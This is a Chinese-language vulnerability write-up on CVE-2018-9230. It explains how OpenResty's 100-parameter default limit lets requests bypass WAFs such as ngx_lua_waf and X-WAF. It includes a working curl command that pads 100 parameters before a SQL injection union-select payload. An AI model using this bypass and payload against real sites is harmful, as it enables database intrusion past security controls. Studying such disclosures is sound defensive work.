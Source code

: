 （CVE-2018-9230）bypass OpenResty waf
=====================================

一、漏洞简介
------------

OpenResty是一款基于Nginx和Lua的Web平台。该平台用于搭建用于处理高并发、高扩展性的动态Web应用、Web服务和动态网关。OpenResty1.13.6.1之前的版本中存在安全漏洞，该漏洞源于程序使用`ngx.req.get_uri_args`和`ngx.req.get_post_args`函数接受参数的数量可以超过100个。远程攻击者可利用该漏洞绕过访问限制，干预Web应用程序防火墙(ngx\_lua\_waf或X-WAF)产品。

二、漏洞影响
------------

OpenResty \< 1.13.6.1

三、复现过程
------------

漏洞分析
--------

### A、uri参数获取

首先看一下官方 API 文档，获取一个 uri
有两个方法：`ngx.req.get_uri_args`、`ngx.req.get_post_args`，二者主要的区别是参数来源有区别，`ngx.req.get_uri_args`获取
uri 请求参数，`ngx.req.get_post_args`获取来自 post 请求内容。

**测试用例：**

    server {
    listen 80;
    server_name localhost;

    location /test {
    content_by_lua_block {
    local arg = ngx.req.get_uri_args()
    for k,v in pairs(arg) do
    ngx.say(“[GET ] key:”, k, “ v:”, v)
    end
    ngx.req.read_body()
    local arg = ngx.req.get_post_args()
    for k,v in pairs(arg) do
    ngx.say(“[POST] key:”, k, “ v:”, v)
    end
    }
    }
    }

**输出测试：**

![1.png](./.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId26.png)

### B、参数大小写

当提交同一参数id，根据接收参数的顺序进行排序，

可是当参数id，进行大小写变换，如变形为Id、iD、ID，则会被当做不同的参数。

![2.png](./.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId28.png)

这里，介绍参数大小写，主要用于进一步构造和理解测试用例。

### C、参数溢出

如果当我们不段填充参数，会发生什么情况呢，为此我构造了一个方便用于展示的测试案例，a0-a9，10\*10,共100参数，然后第101个参数添加SQL注入
Payload，我们来看看会发生什么？

测试用例：`curl 'www.0-sec.org/test?a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&id=1 union select 1,schema_name,3 from INFORMATION_SCHEMA.schemata`

**输出结果：**

![3.png](./.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId30.png)

可以看到，使用`ngx.req.get_uri_args`获取uri
请求参数，只获取前100个参数，第101个参数并没有获取到。继续构造一个POST请求，来看一下：

![4.png](./.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId31.png)

使用`ngx.req.get_post_args`
获取的post请求内容，也同样只获取前100个参数。

检查这两个函数的文档，出于安全原因默认的限制是100，它们接受一个可选参数，最多可以告诉它应该解析多少GET
/
POST参数。但只要攻击者构造的参数超过限制数就可以轻易绕过基于OpenResty的安全防护，这就存在一个uri参数溢出的问题。

综上，通过`ngx.req.get_uri_args`、`ngx.req.get_post_args`获取uri参数，当提交的参数超过限制数（默认限制100或可选参数限制），uri参数溢出，无法获取到限制数以后的参数值，更无法对攻击者构造的参数进行有效安全检测，从而绕过基于OpenResty的WEB安全防护。

漏洞复现
--------

基于OpenResty构造的WEB安全防护，大多数使用`ngx.req.get_uri_args`、`ngx.req.get_post_args`获取uri参数，即默认限制100，并没有考虑参数溢出的情况，攻击者可构造超过限制数的参数，轻易的绕过安全防护。基于OpenResty的开源WAF如：ngx\_lua\_waf、X-WAF、Openstar等，均受影响。

### A、ngx\_lua\_waf

ngx\_lua\_waf是一个基于lua-nginx-module(openresty)的web应用防火墙

github源码：https://github.com/loveshell/ngx\_lua\_waf

**拦截效果图：**

![5.png](./.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId34.png)

**利用参数溢出Bypass：**![6.png](./.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId35.png)

### B、X-WAF

X-WAF是一款适用中、小企业的云WAF系统，让中、小企业也可以非常方便地拥有自己的免费云WAF。

官网：[https://waf.xsec.io](https://waf.xsec.io/)

github源码：https://github.com/xsec-lab/x-waf

**拦截效果图：**

![7.png](./.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId38.png)

**利用参数溢出Bypass：**

![8.png](./.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId39.png)

参考链接
--------

> https://www.anquanke.com/post/id/103771

